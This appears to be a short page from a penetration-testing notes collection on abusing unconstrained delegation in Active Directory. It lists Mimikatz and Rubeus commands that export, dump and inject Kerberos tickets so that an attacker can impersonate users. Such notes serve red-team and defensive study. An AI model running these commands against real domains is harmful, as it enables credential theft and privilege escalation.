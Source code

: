 ```yaml
---
coverY: 0
---
```


# 🟢 Unconstrained Delegation

Unconstrained delegation is a feature within Windows Active Directory environments that allows a service to act on behalf of a user. This means a service, when granted the permission to use unconstrained delegation, can access resources anywhere in the domain using the identity of a user who has authenticated to the service.

The commands under both the MimiKatz and Rubeus sections are tools used to exploit the unconstrained delegation feature.&#x20;

These tools can request, export, and import Kerberos tickets, allowing attackers to impersonate any user who has authenticated to the compromised service, potentially leading to elevated privileges within the domain.

### Unconstrained Delegation with MimiKatz

```
sekurlsa::tickets /export
kerberos::ptt c:\path\to\ticket.kirbi
```

### Unconstrained Delegation with Rubeus

```
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:0x5379f2 /nowrap
.\Rubeus.exe ptt /ticket:RFSSCC[...]
```
